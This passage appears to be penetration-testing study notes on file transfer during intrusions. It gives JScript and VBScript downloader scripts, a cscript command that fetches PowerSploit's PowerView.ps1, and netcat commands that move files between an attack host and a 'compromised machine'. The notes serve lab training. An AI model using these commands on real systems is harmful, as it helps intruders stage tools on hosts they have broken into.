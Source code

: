 var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

C:\htb> cscript.exe /nologo wget.js "url" "filename"


## VBScript

```
                dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
                dim bStrm: Set bStrm = createobject("Adodb.Stream")
                xHttp.Open "GET", WScript.Arguments.Item(0), False
                xHttp.Send

                with bStrm
                        .type = 1
                        .open
                        .write xHttp.responseBody
                        .savetofile WScript.Arguments.Item(1), 2
                end with
```

#### csscript.exe
```
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```




# Netcat

#### attack box connects to server(compromised host)

- from the compromised machine:
```$ nc -l -p 8000 > file.exe```

or

```$ ncat -l -p 8000 --recv-only > file.exe```

- From our attack host : The option -q 0 will tell Netcat to close the connection once it finishes.

```$ nc -q 0 192.168.49.128 8000 < file.exe```

or

```$ ncat --send-only 192.168.49.128 8000 < file.exe```


#### the compromised machine connects back to the attack machine

- from the attack machine:

```$ sudo nc -l -p 443 -q 0 < file.exe```
```
